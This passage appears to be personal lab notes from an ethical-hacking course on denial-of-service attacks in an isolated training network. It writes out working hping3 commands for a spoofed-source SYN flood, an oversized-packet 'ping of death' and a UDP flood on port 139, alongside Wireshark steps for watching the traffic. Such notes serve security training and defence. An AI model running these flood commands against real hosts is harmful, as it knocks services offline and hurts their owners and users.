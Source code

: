 	[windows 11]
	observer behaviors in wireshark. Here, you can observe that the Source IP address is that of the Windows Server 2019 (10.10.1.19) machine. This implies that the IP 
	address of the Parrot Security machine has been spoofed.

	[parrot]
	ctlr+c -> stop flooding
---
## Task 2: Perform a DoS Attack on a Target Host using hping3

hping3 is a command-line-oriented network scanning and packet crafting tool for the TCP/IP protocol that sends ICMP echo requests and supports TCP, UDP, ICMP, and raw-IP protocols.

	[windows 11]
	launch wireshark, keep running

	[parrot]
	sudo su
	cd
SYN flood:

	hping3 -S (Target IP Address) -a (Spoofable IP Address) -p 22 --flood**
	hping3 -S 10.10.1.11 -a 10.10.1.19 -p 22 --flood
	Note: -S: sets the SYN flag; -a: spoofs the IP address; -p: specifies the destination port; and --flood: sends a huge number of packets.
	Ctrl + c
	Note: If you send the SYN packets for a long period, then the target system may crash.

	[Windows 11]
	observe the traffic for TCP-SYN packets
	Statistics -> I/O graph
	close
PoD attack:

	hping3 -d 65538 -S -p 21 --flood 10.10.1.11
	Note: -d: specifies data size; -S: sets the SYN flag; -p: specifies the destination port; and --flood: sends a huge number of packets.

	Note: In a PoD attack, the attacker tries to crash, freeze, or destabilize the targeted system or service by sending malformed or oversized packets using a simple 
	ping command.
	Note:For example, the attacker sends a packet that has a size of 65,538 bytes to the target web server. This packet size exceeds the size limit prescribed by RFC 
	791 IP, which is 65,535 bytes. The receiving system’s reassembly process might cause the system to crash.

UDP application layer flood attacks:

	nmap -p 139 10.10.1.19    
		Here, we will use NetBIOS port 139 to perform a UDP application layer flood attack.
	hping3 -2 -p 139 --flood 10.10.1.19
		Note:-2: specifies the UDP mode; -p: specifies the destination port; and --flood: sends a huge number of packets.
	